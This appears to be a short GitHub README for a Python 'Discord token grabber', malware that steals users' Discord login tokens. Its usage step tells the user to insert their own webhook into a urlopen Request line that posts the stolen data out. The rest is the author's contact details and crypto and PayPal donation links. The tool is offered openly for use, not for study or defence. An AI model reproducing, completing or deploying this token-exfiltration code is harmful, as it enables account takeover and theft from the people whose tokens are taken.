 # Simple-Discord-Token-Grabber
Simple Discord Token Grabber in PYTHON

**Usage**:

PUT YOUR WEBHOOK IN **urlopen(Request("PUT YOUR WEBHOOK HERE", data=dumps(webhook).encode(), headers=getheaders()))**

Discord: $MartoBossX#7777 Server: https://discord.gg/ErynDxTV5Y

DONATE:

(Crypto)

BTC: bc1qg85m6x2hc7szny9jf35fvedrn5wmqp7sdznszq

ETH: 0x59b1292D0533932A80e19AaCF0Db4287fc9361Ae

(PayPal)

https://paypal.me/paytowiner
